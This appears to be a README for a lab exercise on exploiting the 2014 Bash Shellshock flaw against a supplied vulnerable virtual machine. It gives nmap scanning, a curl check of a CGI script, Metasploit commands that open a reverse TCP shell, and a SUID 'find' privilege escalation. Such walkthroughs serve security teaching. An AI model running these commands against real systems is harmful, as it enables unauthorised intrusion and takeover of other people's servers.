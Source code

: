 # Shellshock

This repository describes how to exploit the Bash Shellshock vulnerability. 

## Topics
- [Background](#background)
- [Use Case](#use-case)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
  - [Scan the Network](#scan-the-network)
  - [Attack the Program](#attack-the-program)
  - [Create a Reverse Shell](#create-a-reverse-shell)
  - [Escalate Privileges](#escalate-privileges)
- [Resources](#resources)

## Background

Shellshock is a GNU Bash vulnerability that was discovered in 2014. The Shellshock vulnerabililty can affect numerous systems and attack vectors. GNU Bash through version 4.3 processes trailing strings after function definitions in environment variable values. This allows attackers to execute arbitrary code by using those external variables. The Shellshock vulnerability affects multiple vectors including the mod_cgi and mod_cgid methods of the Apache HTTP server that display dynamic content on web pages and applications. The Shellshock exploit can be launched either remotely or from a local machine.

## Use Case

The Shellshock vulnerability should only be exploited in a research environment. Running the Shellshock exploit enables researchers to become better acquainted with common vulnerabilities that should be remediated. Exploiting the Shellshock vulnerability in a research environment can help users become acquainted with penetration testing tools and methods.

## Prerequisites

Shellshock exploitation requires a vulnerable machine. A vulnerable Shellshock virtual machine called `shellshock_server.ova` can be [downloaded here](https://gtvault-my.sharepoint.com/:u:/g/personal/rheavican3_gatech_edu/EVihwYFaVDlChicYIgfXPHIBMLW_kOUUO8sTaJ7b8JLw2A?e=jIvhZ6). The password for `shellshock_server.ova` is `77t*#bT8sd`. The `shellshock_server.ova` virtual machine should be run in a hypervisor that runs Open Virtualization Format files, such as VirtualBox.

An instance of Kali linux is required to exploit the vulnerable `shellshock_server.ova` virtual machine. The latest Kali image can be downloaded at the [official Kali download page](https://www.kali.org/get-kali/). The Kali virtual machine should be deployed on the same virtual network as `shellshock_server.ova`. 

## Usage

Perform the following tasks to exploit the Shellshock vulnerability in `shellshock_server.ova`:

### Scan the Network

The IP address of the vulnerable virtual machine must be identified to exploit the Shellshock vulnerability. Use `ifconfig -a` in a Kali terminal to identify the virtual network.

Scan the virtual network to identify the vulnerable server. Kali linux includes the Nmap open-source network discovery tool. Run the following command in a Kali terminal to scan the virtual network for hosts: Replace `$Subnet` with the network acquired through `ifconfig -a`.

```
nmap scan $Subnet
```

Run the following command in a Kali terminal to identify all open ports of the vulnerable host. Replace `$IPAddress` with the host IP address found in the previous Nmap scan:

```
nmap -p- $IPAddress
```

Use CURL to connect to any open HTTP ports identified by Nmap to determine if they are vulnerable to Shellshock. Replace `$IPAddress` and `$Port` with the IP address and open HTTP port identified by Nmap:

```
curl http:// <$IPAddress>:<$Port>/cgi-bin/shellshock.cgi
```

The server is vulnerable to Shellshock if the content of the URL is returned in the terminal. The returned URL will be used to attack the vulnerable CGI program.

### Attack the Program

Use the Metasploit framework included in Kali to exploit the vulnerable Shellshock server identifed using Nmap. Type `msfconsole` in a Kali terminal to launch the Metasploit framework.

Metasploit's primary components consist of exploit modules and exploit payloads. Metasploit modules are written to exploit specific vulnerabilities. Metasploit payloads are the packets that are sent within the exploit. 

Use the Apache mod_cgi Bash Environment Variable Code Injection Metasploit module to exploit the vulnerable server identified in Nmap. This module sets the `HTTP_User_Agent` environment variable to a malicious function definition to exploit the mod_cgi script on the Apache web server. Run the following commands in metasploit to run the module:

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Specify the remote host to be exploited in the Metasploit module by running the following command. Replace `#IPAddress` with the IP address of the vulnerable server identified using Nmap.

```
set rhost #IPAddress
```

Specify the URL of the vulnerable target CGI program with the following command:

```
set targeturi /cgi-bin/shellshock.cgi
```

### Create a Reverse Shell

Now the payload needs to be used to exploit the vulnerable Shellshock server. Use `show payloads` to show the possible payloads for the current mod_cgi bash injnection module. Use the `linux/x86/shell/reverse_tcp` reverse shell exploit by running the following commands:

```
set payload linux/x86/shell/reverse_tcp
check
exploit
```

This will create a reverse shell session on the vulnerable server. 

### Escalate Privileges

The `shellshock_server.ova` virtual machine is vulnerable to privilege escalation in addition to its Shellshock vulnerability. Use `/bin/bash -i` to create an interactive Bash session on the reverse shell session. Then use the `whoami` command to identify the user account running the reverse shell session. `whoami` will show the user running the reverse shell as `www-data`.

Navigate to `/usr/bin` and run `ls -la` to identify any programs that use permissions for users other than `www-data`. `ls -la` will show that the `find` program has user privileges for the user `shellshock_server`. Launch a Bash session with the privileges of the `shellshock_server` user by running the following command:

```
find /usr/bin/ -name find -exec /bin/bash -ip \;
```

Use the `whoami` command to confirm that privileges for the Bash session have been escalated to the user `shellshock_server`.

## Resources
- [Kali Download Page](https://www.kali.org/get-kali/)
- [Vulnerable Virtual Machine](https://gtvault-my.sharepoint.com/:u:/g/personal/rheavican3_gatech_edu/EVihwYFaVDlChicYIgfXPHIBMLW_kOUUO8sTaJ7b8JLw2A?e=jIvhZ6)
- [Shellshock CVE](https://nvd.nist.gov/vuln/detail/cve-2014-6271)
- [Shellshock Exploitation](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)
- [Metasploit Shellshock Exploitation](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [Metasploit Exploit for Apache mod_cgi Bash Environment Variable Code Injection](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec/)
- [Shell Spawning](https://rcenetsec.com/shell-spawning/)
- [Privilege Escalation](https://tbhaxor.com/exploiting-suid-binaries-to-get-root-user-shell/)

